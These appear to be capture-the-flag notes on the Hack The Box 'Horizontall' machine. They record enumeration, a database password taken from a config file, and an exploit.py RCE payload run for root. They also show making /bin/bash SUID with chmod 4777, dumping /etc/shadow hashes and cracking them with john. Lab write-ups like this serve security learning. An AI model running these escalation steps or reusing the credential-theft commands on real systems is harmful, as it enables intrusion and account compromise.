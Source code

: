 now let's run linPEAS to know what's going on on this machine 
/usr/lib/node_modules/npm/node_modules/npm-lifecycle/node-gyp-bin:/opt/strapi/myapi/node_modules/.bin:/opt/strapi/myapi/node_modules/.bin:/opt/str
api/node_modules/.bin:/opt/node_modules/.bin:/node_modules/.bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/
usr/local/games:/snap/bin
New path exported: /usr/lib/node_modules/npm/node_modules/npm-lifecycle/node-gyp-bin:/opt/strapi/myapi/node_modules/.bin:/opt/strapi/myapi/node_mo
dules/.bin:/opt/strapi
developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
root:x:0:0:root:/root:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh

in /opt/strapi/myapi/config/environments/production/database.json
 we found something interesting developer [[00 Progress/Boxes/HTB/Linux/Horizontall/04 Creds]]
  "username": "developer",                                         │
  "password": "#J!:F9Zt2u" 
  var/log/nginx/access.log 
  [[Shellshock]]
  └─$ ./exploit.py http://localhost:8888 Monolog/RCE1 id                                                                                            
  AND 
  uid=0(root) gid=0(root) groups=0(root)
AYY
we got it!!


./exploit.py http://localhost:8888 Monolog/RCE1 chmod\ 4777\ /bin/bash
using \ to make it count the space as character!
 or we could've just got /etc/shadow and crack the passwords with /etc/passwd 
so what happened is we ran the script 
and we did something cool instead of just getting the flag on our machine we changed the perm of /bin/bash to suid! 
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 /bin/bash                   
strapi@horizontall:~$ ./bin/bash                                         
bash: ./bin/bash: No such file or directory                          
strapi@horizontall:~$ cd /bin/                                        
strapi@horizontall:/bin$ ls -la bash                                     
-rwsrwxrwx 1 root root 1113504 Jun  6  2019 bash               
strapi@horizontall:/bin$ bash -p                                   
bash-4.4# whoami                                                     
root             



2nd method



developer:$6$XWN/h2.z$Y6PfR1h7vDa5Hu8iHl4wo5PkWe/HWqdmDdWaCECJjvta71eNYMf9BhHCHiQ48c9FMlP4Srv/Dp6LtcbjrcVW40:18779:0:99999:7:::                   
strapi:$6$a9mzQsIs$YENaG2S/H/9aqnHRl.6Qg68lCYU9/nDxvpV0xYOn6seH.JSGtU6zqu0OhR6qy8bATowftM4qBJ2ZA5x9EDSUR.:18782:0:99999:7:::
root:$6$rGxQBZV9$SbzCXDzp1MEx7xxXYuV5voXCy4k9OdyCDbyJcWuETBujfMrpfVtTXjbx82bTNlPK6Ayg8SqKMYgVlYukVOKJz1:18836:0:99999:7:::                        

developer:x:1000:1000:hackthebox:/home/developer:/bin/bash
strapi:x:1001:1001::/opt/strapi:/bin/sh
root:x:0:0:root:/root:/bin/bash

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt pashadow 
